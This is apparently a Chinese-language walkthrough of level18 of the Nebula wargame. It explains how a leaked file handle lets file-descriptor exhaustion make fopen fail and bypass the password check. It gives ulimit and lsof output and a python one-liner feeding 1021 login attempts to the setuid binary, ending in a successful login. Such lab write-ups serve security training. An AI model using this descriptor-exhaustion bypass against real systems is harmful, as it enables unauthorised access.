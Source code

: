 如果if判断为假，就可以直接把全局结构体中的登陆信息设置为1。查阅fopen后可知当文件无法打开时会返回NULL，所以可以想办法让文件无法打开。和反汇编程序对比，可以看到，`fclose(fp)`在实际程序中并不存在，也就是文件句柄打开后并不关闭。系统中每个进程可以打开的文件句柄是有限的，当超出限制，资源枯竭，就会返回NULL。因此可以想办法让句柄资源枯竭。

Linux系统中的可以通过以下方式查看当前打开文件句柄和最大可打开句柄：

```bash
cat /proc/sys/fs/file-nr
cat /proc/sys/fs/file-max
```

但是一般来说，系统会对每个用户的进程作出资源的限制。可以使用ulimit查看限制后的资源情况：

```bash
level18@nebula:/home/flag18$ ulimit -Hn
4096
level18@nebula:/home/flag18$ ulimit -Sn
1024
```

可以看到，文件句柄数量硬阈值设定为4096，但对于当前用户只有1024。换句话说，创建1024个文件句柄后就不能再创建了。

那程序本身会占用多少文件句柄呢？这里我们可以先做个试验，首先运行flag18，并进入调试模式，调试等级最高（因为我们需要调试信息）：

```bash
level18@nebula:/home/flag18$ ./flag18 -d /tmp/dbg17 -vvv
login level18

```

输入`login level18`并回车，此时理论上应该打开了1个密码文件和1个调试信息文件。但是，当我们切换到TTY2并采用root登陆后（具体方法见level07），使用lsof查看进程句柄信息：

```bash
root@nebula:~# lsof -c flag18
COMMAND   PID   USER   FD   TYPE DEVICE SIZE/OFF   NODE NAME
flag18  11848 flag18  cwd    DIR   0,18      100  13132 /home/flag18
flag18  11848 flag18  rtd    DIR   0,18      260   6744 /
flag18  11848 flag18  txt    REG    7,0    12216  12922 /home/flag18/flag18
flag18  11848 flag18  mem    REG    7,0  1544392  44973 /lib/i386-linux-gnu/libc-2.13.so
flag18  11848 flag18  mem    REG    7,0   126152  44978 /lib/i386-linux-gnu/ld-2.13.so
flag18  11848 flag18    0u   CHR  136,0      0t0      3 /dev/pts/0
flag18  11848 flag18    1u   CHR  136,0      0t0      3 /dev/pts/0
flag18  11848 flag18    2u   CHR  136,0      0t0      3 /dev/pts/0
flag18  11848 flag18    3u   REG   0,19       80 362729 /tmp/dbg17
flag18  11848 flag18    4r   REG   0,17       31 344165 /home/flag18/password
```

可以看到，文件实际打开了5个文件句柄，除了刚才说到的两个，还有标准输入、标准输出和错误输出。也就是说对于文件句柄，程序本身占有3个，flag18程序因为调试占有1个，剩下的1024-3-1=1020才是给密码文件的，也就是至少1021个密码文件的打开才能`fopen()`失效。于是构造如下命令：

```bash
python -c 'print "login level8\r\n"*1021' | ~flag18/flag18 -d /tmp/dbg17 -vvv
```

查看一下调试文件：

```bash
level18@nebula:/home/flag18$ cat /tmp/dbg17 | tail
got [login level8] as input
attempting to login
got [login level8] as input
attempting to login
got [login level8] as input
attempting to login
got [login level8] as input
attempting to login
logged in successfully (without password file)
got [] as input
```
